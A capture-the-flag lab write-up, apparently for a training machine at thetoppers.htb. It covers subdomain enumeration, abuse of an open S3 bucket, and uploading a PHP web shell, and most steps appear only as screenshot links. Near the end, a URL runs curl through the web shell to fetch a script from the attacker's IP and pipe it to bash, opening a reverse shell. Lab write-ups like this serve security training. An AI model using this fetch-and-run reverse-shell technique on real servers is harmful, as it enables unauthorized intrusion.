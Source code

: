 #cloud #aws #reverseshell 
![](../../zzImages/Pasted%20image%2020230917145146.png)
![](../../zzImages/Pasted%20image%2020230917145208.png)

Load the website and scroll down:
![](../../zzImages/Pasted%20image%2020230917145428.png)
![](../../zzImages/Pasted%20image%2020230917145523.png)
![](../../zzImages/Pasted%20image%2020230917145553.png)

Add the IP + thetoppers.htb to the /etc/hosts file:
![](../../zzImages/Pasted%20image%2020230917145807.png)
or
![](../../zzImages/Pasted%20image%2020230917145725.png)
![](../../zzImages/Pasted%20image%2020230917145707.png)

![](../../zzImages/Pasted%20image%2020230917150105.png)

## Subdomain Enumeration
Can use wfuzz, gobuster, or feroxbuster

### Using gobuster
![](../../zzImages/Pasted%20image%2020230917155754.png)
![](../../zzImages/Pasted%20image%2020230917155830.png)

s3.thetoppers.htb won't load so let's add it to the etc/hosts file again:
![](../../zzImages/Pasted%20image%2020230917160027.png)

The webpage now loads:
![](../../zzImages/Pasted%20image%2020230917160057.png)

![](../../zzImages/Pasted%20image%2020230917160451.png)
![](../../zzImages/Pasted%20image%2020230917162527.png)

Use awscli to interact with s3 buckets. To install awscli: 

	$ sudo apt install awscli

![](../../zzImages/Pasted%20image%2020230917162606.png)

Configure aws:
![](../../zzImages/Pasted%20image%2020230917164635.png)
![](../../zzImages/Pasted%20image%2020230917160739.png)
![](../../zzImages/Pasted%20image%2020230917162629.png)

List all s3 buckets:
![](../../zzImages/Pasted%20image%2020230917160907.png)
![](../../zzImages/Pasted%20image%2020230917162703.png)

List objects and common prefixes:
![](../../zzImages/Pasted%20image%2020230917160954.png)
![](../../zzImages/Pasted%20image%2020230917162725.png)
![](../../zzImages/Pasted%20image%2020230917161910.png)

## Code Execution
![](../../zzImages/Pasted%20image%2020230917161644.png)

Upload the shell to the website's s3 bucket:
![](../../zzImages/Pasted%20image%2020230917162035.png)

Check to see that the shell.php file has been uploaded:
![](../../zzImages/Pasted%20image%2020230917170400.png)
![](../../zzImages/Pasted%20image%2020230917162110.png)
![](../../zzImages/Pasted%20image%2020230917162824.png)

### Attempt to get a reverse shell 
Save this payload to a new shell.sh file (change <YOUR_IP_ADDRESS>): 
![](../../zzImages/Pasted%20image%2020230917164922.png)
Start a listener:
![](../../zzImages/Pasted%20image%2020230917163206.png)
Start a server (while in the directory the shell script is in):
![](../../zzImages/Pasted%20image%2020230917164942.png)
Use curl to fetch the shell script & pipe it to bash for execution:
![](../../zzImages/Pasted%20image%2020230917163733.png)
![](../../zzImages/Pasted%20image%2020230917163912.png)

Inputting the following URL into the browser gets us a reverse shell:
	http://thetoppers.htb/shell.php?cmd=curl1%2010.10.14.111:8000/shell.sh|bash
![](../../zzImages/Pasted%20image%2020230917165227.png)

## Flag:
Reverse Shell achieved:
![](../../zzImages/Pasted%20image%2020230919153505.png)
![](../../zzImages/Pasted%20image%2020230919153513.png)
